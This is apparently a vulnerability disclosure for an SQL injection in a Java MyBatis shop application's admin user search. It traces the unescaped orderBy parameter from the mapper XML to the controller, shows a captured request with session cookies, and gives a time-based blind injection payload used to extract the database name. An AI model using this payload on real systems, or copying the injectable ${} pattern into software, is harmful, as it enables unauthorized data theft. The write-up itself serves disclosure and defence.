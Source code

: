 #### src/main/resources/mybatis/mapper/UserMapper.xml

```xml
    <select id="select" resultMap="userMap">
        SELECT user_id,user_name,user_nickname,user_password,user_realname,user_gender,user_birthday,user_profile_picture_src,user_address,user_homeplace FROM user
        <if test="user != null">
            <where>
                <if test="user.user_name != null">
                    (user_name LIKE concat('%',#{user.user_name},'%') or user_nickname LIKE concat('%',#{user.user_name},'%'))
                </if>
                <if test="user.user_gender != null">
                    and user_gender = #{user.user_gender}
                </if>
            </where>
        </if>
        <if test="orderUtil != null">
            ORDER BY ${orderUtil.orderBy}<if test="orderUtil.isDesc">desc </if>
        </if>
        <if test="pageUtil != null">
            LIMIT #{pageUtil.pageStart},#{pageUtil.count}
        </if>
    </select>
```

​	The injection parameter is the orderBy parameter in orderUtil, which can be traced upwards.

```java
    //按条件查询用户-ajax
    @ResponseBody
    @RequestMapping(value = "admin/user/{index}/{count}", method = RequestMethod.GET, produces = "application/json;charset=UTF-8")
    public String getUserBySearch(@RequestParam(required = false) String user_name/* 用户名称 */,
                                  @RequestParam(required = false) Byte[] user_gender_array/* 用户性别数组 */,
                                  @RequestParam(required = false) String orderBy/* 排序字段 */,
                                  @RequestParam(required = false,defaultValue = "true") Boolean isDesc/* 是否倒序 */,
                                  @PathVariable Integer index/* 页数 */,
                                  @PathVariable Integer count/* 行数 */) throws UnsupportedEncodingException {
        //移除不必要条件
        Byte gender = null;
        if (user_gender_array != null && user_gender_array.length == 1) {
            gender = user_gender_array[0];
        }

        if (user_name != null) {
            //如果为非空字符串则解决中文乱码：URLDecoder.decode(String,"UTF-8");
            user_name = "".equals(user_name) ? null : URLDecoder.decode(user_name, "UTF-8");
        }
        if (orderBy != null && "".equals(orderBy)) {
            orderBy = null;
        }
        //封装查询条件
        User user = new User()
                .setUser_name(user_name)
                .setUser_gender(gender);

        OrderUtil orderUtil = null;
        if (orderBy != null) {
            logger.info("根据{}排序，是否倒序:{}",orderBy,isDesc);
            orderUtil = new OrderUtil(orderBy, isDesc);
        }

        JSONObject object = new JSONObject();
        logger.info("按条件获取第{}页的{}条用户", index + 1, count);
        PageUtil pageUtil = new PageUtil(index, count);
        List<User> userList = userService.getList(user, orderUtil, pageUtil);
        object.put("userList", JSONArray.parseArray(JSON.toJSONString(userList)));
        logger.info("按条件获取用户总数量");
        Integer userCount = userService.getTotal(user);
        object.put("userCount", userCount);
        logger.info("获取分页信息");
        pageUtil.setTotal(userCount);
        object.put("totalPage", pageUtil.getTotalPage());
        object.put("pageUtil", pageUtil);

        return object.toJSONString();
    }
```

​	Tracing back to the controller, the order function is used, which shows that there is no filtering here, and we locate the user management module on the front end

![image-20241224194043898](img/image-20241224194043898.png)

​	Grab the packet.

```http
GET /tmall/admin/user/0/10?user_name=123&user_gender_array=0&user_gender_array=1&orderBy=1&isDesc=true HTTP/1.1
Host: 172.21.53.85:8080
X-Requested-With: XMLHttpRequest
Referer: http://172.21.53.85:8080/tmall/admin
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: JSESSIONID=3B16C09E8A179A970E83C60845A3ED95; username=1209577113; admin-token=1#2F31733671566670654C7A6C432B6766575978556E4E58456F4554656B56596479727567522B483048444B544C5A4F5332736C4673556352716E516573486D535366716C76524751733336462F746D77657036476C516F4C493741783532773834364D74783071516B5079657A6856355766355970547677473254736F2F5165454A656B366857734474653154734B672F494A4A33773D3D
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36 Edg/131.0.0.0
Accept: */*
```

​	The injection point is the orderBy parameter, which is attempted to be injected. An error is reported after entering a single quotation mark, and the payload is constructed by attempting to close.

```sql
if(ascii(substr((select%20database()),1,1))=1,sleep(0.1),1)
```

![image-20241224205026604](img/image-20241224205026604.png)

​	After exporting the data, the database name is obtained:

![image-20241224205053441](img/image-20241224205053441.png)
